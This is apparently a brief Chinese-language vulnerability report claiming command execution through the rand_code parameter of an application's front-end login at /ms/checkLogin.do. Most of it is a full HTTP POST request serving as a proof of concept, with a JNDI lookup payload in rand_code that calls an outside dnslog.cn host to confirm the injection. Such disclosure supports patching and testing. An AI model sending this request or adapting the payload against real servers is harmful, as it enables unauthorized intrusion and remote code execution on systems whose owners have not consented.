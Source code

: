 在前台登录处存在命令执行漏洞
可以通过rand_code参数进行代码执行



POST /ms/checkLogin.do HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 106
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="100"
Pragma: no-cache
sec-ch-ua-mobile: ?0
Content-Type: application/x-www-form-urlencoded
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8088
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8088/ms/login.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pageno_cookie=1; JSESSIONID=BD34D601FC3933412466B54942B5EBEA
Connection: close
Accept: 1
User-Agent: 2
X-Client-IP: 3

managerName=msopen&managerPassword=123456&rememberMe=false&rand_code=${jndi:dns://xxxx.wputvy.dnslog.cn/t}



